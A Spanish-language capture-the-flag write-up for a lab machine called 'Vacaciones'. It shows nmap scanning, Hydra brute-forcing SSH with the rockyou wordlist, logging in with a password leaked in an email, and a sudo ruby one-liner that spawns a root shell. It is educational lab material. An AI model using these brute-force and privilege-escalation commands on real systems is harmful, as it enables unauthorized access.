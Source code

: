 ```yaml
---
description: '✍️ Autor: Romabri🔍 Dificultad: Muy Fácil  📅 Fecha de creación: 01/01/2000'
---
```


# Vacaciones

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/0.png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP

![](../../.gitbook/assets/1.png)

Como podemos observar durante el escaneo, el puerto **22** perteneciente al servicio **SSH** y el puerto **80** perteneciente al servicio **HTTP** están abiertos, por lo que se procederá a indagar más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Se ingresó la dirección IP en el navegador, lo que llevó a que la página web aparezca vacía.

![](../../.gitbook/assets/3.png)

De primeras, no se nos muestra nada, por lo que revisamos el código fuente por si hay alguna información oculta relevante.

<figure><img src="../../.gitbook/assets/4.png" alt=""><figcaption></figcaption></figure>

Al parecer, hemos descubierto nombres que posiblemente sean los usuarios, por lo que intentaremos conectarnos a través de **SSH**.

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**. Hemos probado varios usuarios, pero el que da respuesta es **camilo**.

<figure><img src="../../.gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **camilo**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh camilo@172.17.0.2
```

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

![](../../.gitbook/assets/6.png)

Como no somos **root**, debemos hacer una escalada de privilegios, pero antes revisaremos el correo que le envió **Juan** a **Camilo**.

![](../../.gitbook/assets/7.png)

Por lo que **Juan** nos ha dado su contraseña, seguramente él sea un usuario del grupo **sudo**, por lo que nos conectaremos a él.

![](../../.gitbook/assets/8.png)

Observamos que podemos escalar privilegios con **ruby** usando el comando:

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

Tras eso, ponemos:

```bash
whoami
```

y ya somos **root**.

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

